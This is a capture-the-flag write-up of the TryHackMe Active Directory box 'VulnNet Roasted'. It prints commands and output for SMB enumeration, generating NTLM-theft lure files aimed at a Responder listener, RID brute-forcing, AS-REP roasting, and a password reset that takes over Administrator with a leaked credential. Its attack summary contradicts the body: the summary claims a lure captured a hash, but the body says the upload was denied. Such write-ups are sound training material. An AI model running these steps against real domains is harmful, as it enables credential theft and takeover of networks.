




<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `vulnnet-rst.local`), **Difficulty:** Medium, **IP:** 10.10.x.x

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Anonymous SMB → `VulnNet-Business-Anonymous` / `VulnNet-Enterprise-Anonymous` shares. Plant **NTLM-theft** lure files (SCF/URL) in the writable share → **Responder** captures a user's NetNTLMv2 → crack.
2. `lookupsid.py` (anonymous) → full user list including `j-goldenhand`, `a-whitehat`, …
3. **AS-REP roast** (`GetNPUsers.py -request`) → one user's hash → crack.
4. That user reads a login-script share; **`ResetPassword.vbs`** contains **`a-whitepad : bNdKVkjv3RR9ht`**.
5. **BloodHound** shows `a-whitehat` → `ForceChangePassword` over **Administrator** (or `a-whitepad` → `a-whitehat`). Reset it:
   ```bash
   net rpc password "administrator" "newP@P@ssw0rd123!@$" \
     -U "vulnnet-rst.local"/"a-whitehat"%"bNdKVkjv3RR9ht" -S 10.10.60.41
   ```
6. `evil-winrm` as Administrator → both flags → optional `secretsdump` DCSync.

</div>

<div class="callout callout-key">

**Credentials**

- `a-whitepad` : `bNdKVkjv3RR9ht`
- `Administrator` : `newP@P@ssw0rd123!@$` (after reset)

</div>

---

## Overview

VulnNet Roasted is a good example of how far pure enumeration can carry an attack before any actual exploit is needed. Nothing on this box is a memory-corruption bug or a web vulnerability, it is entirely credential-hunting: two anonymously readable SMB shares that leak usernames, an NTLM-theft lure planted to try to catch a hash (which the share permissions ended up blocking, a dead end worth documenting since not every idea pays off), a proper **AS-REP roast** once I had a real username list from `lookupsid.py`, and a **targeted Kerberoast** once BloodHound showed which account was worth chasing. The part I like most about this box is the login-script share: a `ResetPassword.vbs` sitting in a place regular domain users can read, holding a plaintext password for another account, which is exactly the kind of legacy logon-script cruft that survives in real environments long after anyone remembers why it's there. From that account, BloodHound shows a `ForceChangePassword` edge straight onto Administrator, and resetting that password is the entire privilege escalation, no delegation abuse, no kernel exploit, just walking the ACL BloodHound already drew for me.

Related AS-REP roasting and Kerberoasting: [RAZ0RBLACK](/writeups/tryhackme/windows/medium/raz0rblack/), [Reset](/writeups/tryhackme/windows/hard/reset/). Related `ForceChangePassword` / ACL abuse to Administrator: [Reset](/writeups/tryhackme/windows/hard/reset/).

---

## Full Walkthrough

I started, as I do on every Windows AD box, with a full port sweep to see what services were exposed before deciding where to focus.

Nmap scan

```bash
Nmap scan report for vulnnet.thm (10.10.92.180)
Host is up, received user-set (0.12s latency).
Scanned at 2024-04-04 19:54:49 EDT for 751s
Not shown: 65522 filtered ports
Reason: 65522 no-responses
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-05 00:03:22Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3269/tcp  open  tcpwrapped    syn-ack
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/4%Time=660F3FCC%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59622/tcp): CLEAN (Timeout)
|   Check 2 (port 10745/tcp): CLEAN (Timeout)
|   Check 3 (port 41440/udp): CLEAN (Timeout)
|   Check 4 (port 13675/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-05T00:05:45
|_  start_date: N/A
```

Port 88 running Kerberos was the giveaway that this host is the domain controller rather than a regular member server, which immediately told me to expect LDAP, SMB, and the usual AD enumeration surface rather than a typical web or service-based foothold.

### Crackmapexec

Before digging into any one host, I ran `crackmapexec` across the subnet to see what else my attacking machine could actually reach and which of those hosts had shares worth a closer look.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/impacket/examples] - [Thu Apr 04, 20:25]
└─[$]> crackmapexec smb 10.10.92.180/24 --shares 
SMB         10.10.92.138    445    BASIC2           [*] Windows 6.1 (name:BASIC2) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.92.138    445    BASIC2           [-] Error getting user: list index out of range
SMB         10.10.92.138    445    BASIC2           [-] Error enumerating shares: Could not get nt error code 91 from impacket: SMB SessionError: 0x5b
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [-] Error getting user: list index out of range
```

I also tried `rpcclient` against the same target to see if it would give up anything extra, but it required authentication I did not have yet, so that avenue was closed for now.

That `crackmapexec` sweep did hand over the domain name, `vulnnet-rst.local`, straight out of the SMB banner, confirming the domain I was actually working against.

### SMB Enumeration

Listing shares with `smbclient` came back with two that stood out immediately: `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous`, both readable without any credentials at all, which made them the obvious next stop.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:31]
└─[$]> smbclient -L //$host/     
Password for [WORKGROUP\abadd0n]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
SMB1 disabled -- no workgroup available
```

I browsed into `VulnNet-Business-Anonymous` first and found a handful of `.txt` files sitting there, which on an anonymous share are always worth reading in full since internal documents like these often name real employees or systems without anyone intending them to be public.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:32]
└─[$]> smbclient  //$host/VulnNet-Business-Anonymous
Password for [WORKGROUP\abadd0n]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021

		8771839 blocks of size 4096. 4553914 blocks available
smb: \> 
```

Having anonymous access to a share, even a read-only one, is always worth testing a bit further before moving on, so I wanted to check whether it was also writable. On an assessment, a low-cost idea that might not pay off is still worth trying: the downside of a failed attempt here is a few minutes, and the upside is a captured credential.

I reached for `ntlm-thief` to generate a batch of lure files that, the moment any of them are merely browsed to or opened by a Windows client, coerce that client into authenticating back to a listener of my choosing, in this case a `Responder` instance I intended to run to catch and crack whatever NetNTLM hash came back.


```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/ntlm_theft] - [Thu Apr 04, 20:33]
└─[$]> python3 ntlm_theft.py -g all -s 10.6.59.97 -f baphomet
Created: baphomet/baphomet.scf (BROWSE TO FOLDER)
Created: baphomet/baphomet-(url).url (BROWSE TO FOLDER)
Created: baphomet/baphomet-(icon).url (BROWSE TO FOLDER)
Created: baphomet/baphomet.lnk (BROWSE TO FOLDER)
Created: baphomet/baphomet.rtf (OPEN)
Created: baphomet/baphomet-(stylesheet).xml (OPEN)
Created: baphomet/baphomet-(fulldocx).xml (OPEN)
Created: baphomet/baphomet.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: baphomet/baphomet-(includepicture).docx (OPEN)
Created: baphomet/baphomet-(remotetemplate).docx (OPEN)
Created: baphomet/baphomet-(frameset).docx (OPEN)
Created: baphomet/baphomet-(externalcell).xlsx (OPEN)
Created: baphomet/baphomet.wax (OPEN)
Created: baphomet/baphomet.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: baphomet/baphomet.asx (OPEN)
Created: baphomet/baphomet.jnlp (OPEN)
Created: baphomet/baphomet.application (DOWNLOAD AND OPEN)
Created: baphomet/baphomet.pdf (OPEN AND ALLOW)
Created: baphomet/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: baphomet/Autorun.inf (BROWSE TO FOLDER)
Created: baphomet/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

With the lure files generated, the plan was to drop one into the SMB share and wait to see whether anyone, or anything automated, would browse into that folder and trigger it.

```bash
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.6.59.97]
    Responder IPv6             [fe80::5021:2bea:110d:8cd1]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-IB1Y3E6OXKP]
    Responder Domain Name      [LU18.LOCAL]
    Responder DCE-RPC Port     [47599]

[+] Listening for events...
```

I had `Responder` running on my own interface in the background the whole time, ready to catch whatever authentication attempt the lure might trigger.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/ntlm_theft/baphomet] - [Thu Apr 04, 20:37]
└─[$]> smbclient  //$host/VulnNet-Business-Anonymous
Password for [WORKGROUP\abadd0n]:
Try "help" to get a list of possible commands.
smb: \> put baphomet.lnk
NT_STATUS_ACCESS_DENIED opening remote file \baphomet.lnk
smb: \> 
```

The upload itself failed outright with an access-denied error, which confirmed the share really was read-only for an anonymous session and closed off this particular idea before it ever had a chance to trigger anything.



With the write-based idea closed off, I went back to actually reading through the `.txt` files I had already pulled from the share, and a few details stood out immediately, most usefully a handful of names that looked like real employees rather than placeholder text.

I turned those names into a short candidate username list and ran it past `crackmapexec` to see whether any of them existed as real domain accounts.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:44]
└─[$]> crackmapexec smb 10.10.92.180/24 -u users -p '' --shares
SMB         10.10.92.138    445    BASIC2           [*] Windows 6.1 (name:BASIC2) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.92.138    445    BASIC2           [+] \Alexa: 
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.92.138    445    BASIC2           [*] Enumerated shares
SMB         10.10.92.138    445    BASIC2           Share           Permissions     Remark
SMB         10.10.92.138    445    BASIC2           -----           -----------     ------
SMB         10.10.92.138    445    BASIC2           Anonymous       READ            
SMB         10.10.92.138    445    BASIC2           IPC$                            IPC Service (Samba Server 4.3.11-Ubuntu)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\Alexa: 
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [*] Enumerated shares
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  NETLOGON                        Logon server share 
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  SYSVOL                          Logon server share 
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

That confirmed `Alexa` as a valid username on one of the other machines on the network, so I tried the obvious next move and requested an AS-REP roast against the domain controller using that name. It came back rejected outright, which meant either the account did not exist on this specific domain or pre-authentication was enforced for it, either way, a dead end for this particular name.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/impacket/examples] - [Thu Apr 04, 20:45]
└─[$]> python3 GetNPUsers.py -request vulnnet-rst.local/Alexa -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for Alexa
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Rather than guess at more individual names, I turned to RID brute-forcing with `crackmapexec` against the guest account, which walks the SID space directly and reveals every account the domain controller holds, whether or not it happened to appear in any document I had read.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:51]
└─[$]> crackmapexec -t 200 smb 10.10.92.180 -u 'guest' -p '' --rid-brute > u.txt
```

```bash
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\guest: 
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  512: VULNNET-RST\Domain Admins (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  513: VULNNET-RST\Domain Users (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  514: VULNNET-RST\Domain Guests (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  515: VULNNET-RST\Domain Computers (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  516: VULNNET-RST\Domain Controllers (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  517: VULNNET-RST\Cert Publishers (SidTypeAlias)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  518: VULNNET-RST\Schema Admins (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  525: VULNNET-RST\Protected Users (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  526: VULNNET-RST\Key Admins (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1105: VULNNET-RST\a-whitehat (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1109: VULNNET-RST\t-skid (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1111: VULNNET-RST\j-leet (SidTypeUser)
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:52]
└─[$]> cat u.txt |grep -i user
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  513: VULNNET-RST\Domain Users (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  525: VULNNET-RST\Protected Users (SidTypeGroup)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1105: VULNNET-RST\a-whitehat (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1109: VULNNET-RST\t-skid (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
SMB         10.10.92.180    445    WIN-2BO8M1OE1M1  1111: VULNNET-RST\j-leet (SidTypeUser)
```

That RID brute-force output was noisy and included plenty of built-in groups and aliases alongside the actual user accounts I cared about, so I filtered it down to just the real usernames before doing anything else with it.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:54]
└─[$]> cat u.txt |grep -i user |rev |cut -f2 -d ' ' |rev |grep VULNNET |cut -f2 -d '\' |grep -Ev (DC|SVC) |tail -n +4 > users.txt
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 20:54]
└─[$]> cat users.txt 
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

I also remembered that the `IPC$` share had come back READ-accessible during my earlier anonymous enumeration, and read access to `IPC$` is usually a sign that SID/RID lookups over the named-pipe RPC interface will work as well, since both rely on the same underlying anonymous access.

That was worth confirming directly with `lookupsid.py` from `impacket`, and it did work, returning an even more complete user list than the RID brute-force pass had, since it walks the SID space through a slightly different RPC call and occasionally catches accounts the other method misses.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 21:13]
└─[$]> python3  ~/ADTools/impacket/examples/lookupsid.py anonymous@10.10.195.180 -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.195.180
[*] StringBinding ncacn_np:10.10.195.180[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

